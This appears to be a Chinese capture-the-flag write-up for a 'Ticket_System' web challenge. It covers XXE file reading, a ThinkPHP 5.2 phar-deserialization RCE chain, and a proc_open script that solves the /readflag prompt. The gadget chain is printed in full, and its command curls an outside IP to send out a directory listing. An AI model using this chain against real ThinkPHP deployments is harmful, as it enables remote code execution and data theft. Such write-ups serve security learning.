



Ticket_System
----
Upload your Ticket.

考点
----
* XXE
* tp5.2 rce
* popen

做题过程
----
观察网页源码，发现关键js文件main.js：



尝试一下XXE，发现可以成功读取文件：



但是尝试except无法成功执行，应该是PHP没有安装该扩展。



提示的意思应该是说flag不在web目录下，而是在系统的root目录下，直接XXE读取权限不足，需要其他的方式。

读取hints.txt的内容：**You'r clever. But not enough. Try RCE!**

应该是要找tp5.2的RCE链，之前Smile师傅的文章里讲过，直接拿来用了：

https://github.com/Nu1LCTF/n1ctf-2019/tree/master/WEB/sql_manage

```php
<?php
namespace think\process\pipes {
    class Windows
    {
        private $files;
        public function __construct($files)
        {
            $this->files = array($files);
        }
    }
}

namespace think\model\concern {
    trait Conversion
    {
        protected $append = array("Smi1e" => "1");
    }

    trait Attribute
    {
        private $data;
        private $withAttr = array("Smi1e" => "system");

        public function get($system)
        {
            $this->data = array("Smi1e" => "$system");
        }
    }
}
namespace think {
    abstract class Model
    {
        use model\concern\Attribute;
        use model\concern\Conversion;
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model
    {
        public function __construct($system)
        {
            $this->get($system);
        }
    }
}

namespace {
    $Conver = new think\model\Pivot("curl http://101.200.47.157/ -d '`ls -l /`';");
    $payload = new think\process\pipes\Windows($Conver);
    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>"); //设置stub
    $phar->setMetadata($payload); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
    echo urlencode(serialize($payload));
}
?>
```
（做题的时候赶时间没截图，复现的时候，发现/tmp被人动手脚了，没法上传Phar，下面只能文字说明）

进去之后，尝试读取根目录的flag，权限不足，分析拥有者为www-data。

除此之外，还发现了一个readflag可执行文件，分析了一波之后，发现和\*CTF的一模一样，于是直接拿当时fish师傅的脚本来跑了。

```php
<?php
$descriptorspec = array(
	0 => array("pipe", "r"),	// 标准输入，子进程从此管道中读取数据
	1 => array("pipe", "w"),	// 标准输出，子进程向此管道中写入数据
	2 => array("file", "/tmp/.a/error-output.txt", "a") // 标准错误，写入到一个文件
);

$cwd = '/';
$env = array();

$process = proc_open('/readflag', $descriptorspec, $pipes, $cwd, $env);

if (is_resource($process)) {
	$a = fread($pipes[1], 1024);
	$a = fread($pipes[1], 1024);

	$a = explode("\n", $a);
	eval("\$result = $a[0];");
	echo("\$result = $a[0];");

	fwrite($pipes[0], "$result\n");

	var_dump(fread($pipes[1], 1024));
	var_dump(fread($pipes[1], 1024));
	var_dump(fread($pipes[1], 1024));

	fclose($pipes[0]);
	fclose($pipes[1]);
	$return_value = proc_close($process);

	echo "command returned $return_value\n";
}
?>
``` 

**flag{3ff32148-e229-41fd-b7b9-d09e76d35daf}**